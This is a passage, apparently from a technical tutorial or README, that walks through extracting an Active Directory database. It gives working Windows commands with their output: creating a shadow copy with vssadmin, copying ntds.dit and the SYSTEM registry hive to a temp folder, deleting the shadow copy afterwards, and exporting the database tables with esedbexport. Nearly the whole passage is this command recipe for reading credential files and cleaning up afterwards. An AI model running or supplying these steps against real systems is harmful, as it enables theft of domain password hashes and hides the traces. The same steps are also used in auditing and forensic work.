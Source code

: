     ```
    C:\Documents and Settings\Administrator>vssadmin.exe create shadow /for=c:
    vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
    (C) Copyright 2001 Microsoft Corp.

    Successfully created shadow copy for 'c:\'
        Shadow Copy ID: {10b7290a-acdb-4bc0-9465-0ac881a8928b}
        Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

    C:\Documents and Settings\Administrator>copy /Y \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\NTDS\ntds.dit c:\temp
            1 file(s) copied.

    C:\Documents and Settings\Administrator>copy /Y \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp
            1 file(s) copied.

    C:\Documents and Settings\Administrator>vssadmin delete shadows /shadow={10b7290a-acdb-4bc0-9465-0ac881a8928b}
    vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
    (C) Copyright 2001 Microsoft Corp.

    Do you really want to delete 1 shadow copies (Y/N): [N]? y

    Successfully deleted 1 shadow copies.

    C:\Documents and Settings\Administrator>
    ```
  - Grab SYSTEM and NTDS.dit files in the c:\\temp directory.
- Process **NTDS.DIT** with esedbexport tool to export all Active Directory database tables

  esedbexport tool is part of [libesedb](http://code.google.com/p/libesedb/) library. You need to download and compile it.

  Use the following command to process **NTDS.DIT**:

  ```
  PS F:\temp> esedbexport.exe .\ntds.dit
  esedbexport 20120102

  Opening file.
  Exporting table 1 (MSysObjects) out of 12.
  Exporting table 2 (MSysObjectsShadow) out of 12.
  Exporting table 3 (MSysUnicodeFixupVer2) out of 12.
  Exporting table 4 (datatable) out of 12.
  Exporting table 5 (hiddentable) out of 12.
  Exporting table 6 (link_table) out of 12.
  Exporting table 7 (sdpropcounttable) out of 12.
  Exporting table 8 (sdproptable) out of 12.
  Exporting table 9 (sd_table) out of 12.
  Exporting table 10 (MSysDefrag2) out of 12.
  Exporting table 11 (quota_table) out of 12.
  Exporting table 12 (quota_rebuild_progress_table) out of 12.
  Export completed.
  PS F:\temp>
  ```
